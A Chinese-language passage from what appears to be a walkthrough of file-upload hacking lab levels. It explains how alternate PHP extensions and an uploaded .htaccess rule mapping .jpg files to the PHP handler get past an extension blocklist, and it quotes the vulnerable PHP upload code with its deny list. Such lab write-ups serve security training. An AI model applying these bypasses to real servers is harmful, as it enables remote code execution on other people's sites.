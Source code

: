 ```php
}
```
2. 因此我们将我们要上传的php文件改成`.php3 .php4 .php5 .phtml .phtm .phps .phpt .php345`任意一种即可。
3. **注意：**要在`apache`的`httpd.conf`中有如下配置代码：AddType application/x-httpd-php .php .phtml .phps .php5 .pht，如果不配置的话是无法解析php5代码的，访问的时候就是一个空白页


## Pass-04 文件名后缀校验 (配置文件解析控制) .htaccess

分析源码：我们发现这一关的过滤比第三过更多了，使用第三关的方法是行不通了。
但是没有限制 `.htaccess`

> **补充知识：**
`.htaccess`文件是`Apache`服务器中的一个配置文件，它负责相关目录下的网页配置，通过`.htaccess`文件，可以实现：网页301重定向、自定义404页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能

上传内容为以下代码的`.htaccess`文件，双引号内为你要上传的文件名。
```php
<FilesMatch "jpg">   
        SetHandler application/x-httpd-php
</FilesMatch>
```
1. 我们先看一看后端代码
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```
2. 从以上代码可以看出，该关过滤了大量的能够被解析成php的后缀，但是没有对`.htaccess`的文件进行过滤，因此我们可以`.htaccess`上传的方式绕过。
3. 我们先上传一个`.htaccess`文件,文件内容如下：
